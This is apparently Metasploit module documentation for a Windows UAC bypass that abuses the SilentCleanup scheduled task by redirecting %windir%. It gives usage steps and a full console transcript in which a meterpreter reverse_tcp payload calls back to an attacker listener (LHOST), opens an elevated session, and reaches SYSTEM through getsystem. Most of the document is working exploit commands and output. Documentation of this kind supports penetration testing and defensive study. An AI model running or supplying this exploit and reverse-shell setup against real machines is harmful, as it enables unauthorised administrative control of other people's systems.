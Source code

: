 ## Intro

This module will bypass UAC on any Windows installation with Powershell installed. 

There's a task in Windows Task Scheduler called "SilentCleanup" which, while it's executed as Users, automatically runs with elevated privileges.
When it runs, it executes the file %windir%\system32\cleanmgr.exe. Since it runs as Users, and we can control user's environment variables,
%windir% (normally pointing to C:\Windows) can be changed to point to whatever we want, and it'll run as admin. In order to work, the code must 
be saved in a script file somewhere, it cannot be run directly from powershell or from the run dialog.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_silentcleanup`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  6         meterpreter x86/windows  DESKTOP-T2TGIHP\Carter @ DESKTOP-T2TGIHP  192.168.1.x:4444 -> 192.168.1.x:53685 (192.168.1.x)

msf5 > use exploit/windows/local/bypassuac_silentcleanup 
msf5 exploit(windows/local/bypassuac_silentcleanup) > set SESSION 6
SESSION => 6
msf5 exploit(windows/local/bypassuac_silentcleanup) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_silentcleanup) > set LHOST 192.168.1.xx
LHOST => 192.168.1.xx
msf5 exploit(windows/local/bypassuac_silentcleanup) > options

Module options (exploit/windows/local/bypassuac_silentcleanup):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION    6                yes       The session to run this module on.
   SLEEPTIME  0                no        The time (ms) to sleep before running SilentCleanup


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.55     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows


msf5 exploit(windows/local/bypassuac_silentcleanup) > run

[*] Started reverse TCP handler on 192.168.1.xx:4444 
[+] Part of Administrators group! Continuing...
[*] Sending stage (206403 bytes) to 192.168.1.x
[*] Meterpreter session 10 opened (192.168.1.xx:4444 -> 192.168.1.x:55538) at 2019-06-20 15:00:14 -0400

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > bg
[*] Backgrounding session 10...
msf5 exploit(windows/local/bypassuac_silentcleanup) > 
```
